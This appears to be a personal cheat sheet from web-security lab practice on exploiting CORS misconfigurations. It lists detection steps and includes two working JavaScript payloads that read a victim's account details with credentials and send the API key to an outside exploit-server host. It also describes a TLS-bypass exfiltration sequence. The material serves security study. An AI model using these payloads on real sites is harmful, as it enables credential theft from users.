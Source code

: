 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
  function getadmin() {
    var res = JSON.parse(this.response)
    fetch("https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?" + res.apikey);
}

const request = new XMLHttpRequest();
request.addEventListener("load", getadmin);
request.open("GET", "https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails", true);
request.withCredentials = true;
request.send();
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit, or fetch:
  ```html
  <script>fetch()</script>
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
